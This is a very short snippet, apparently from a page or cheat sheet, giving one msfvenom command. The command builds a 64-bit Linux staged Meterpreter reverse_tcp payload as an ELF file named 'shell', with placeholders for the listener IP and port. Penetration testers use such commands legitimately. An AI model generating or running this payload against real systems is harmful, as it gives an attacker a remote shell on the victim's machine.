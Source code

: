 
A Linux 64bit staged Meterpreter payload:
```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o shell LHOST=<listen-IP> LPORT=<listen-port>
```
